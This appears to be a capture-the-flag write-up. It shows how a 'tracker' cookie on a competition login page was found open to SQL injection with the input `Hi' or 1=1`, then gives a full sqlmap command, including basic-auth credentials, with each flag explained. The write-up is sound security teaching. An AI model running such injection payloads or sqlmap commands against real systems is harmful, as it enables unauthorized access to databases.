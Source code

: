 ![/assets/images/cybersci/track4/6.png](/assets/images/cybersci/track4/6.png)

We play with the value of the tracker a bit to see if we can trigger an error. We get this when we try
`Hi' or 1=1`, suggesting that the site is vulnerable to sql injection.

![/assets/images/cybersci/track4/28.png](/assets/images/cybersci/track4/28.png)

Here I used sqlmap.
The struggle here was figuring out which options to use.
Here is the command used and explained:
```
sqlmap --method=POST -u "http://cryptodb.dogedays.ca:8080/login.php" --cookie=tracker=tracker --param-filter="COOKIE" --skip='PHPSESSIONID' --data="username=admin&password=admin" --dbs --referer="http://cryptodb.dogedays.ca:8080" --random-agent true --auth-type=BASIC --auth-cred="admin:canthackm3cryptodb" --level=2
```
- `--method=POST` - when the user attempts to login a post request is made, so the request type here must also be `POST`
- `--cookie=tracker=tracker` - the cookies, there is more than this, but this is the one we want to test
- `--param-filter="COOKIE"` - Select testable parameter(s) by type (ie. COOKIE for cookies, POST for post request params, etc.s), we select cookies, because our vulnerable param is a cookie.
- `--skip='PHPSESSIONID'` - skip testing parameter PHPSESSIONID because we know tracker is vulnerable
- `--data="username=admin&password=admin"` - we need to include the form fields in the request, so sqlmap knows how to format the requests to the server
- `--dbs` - enumerate databases
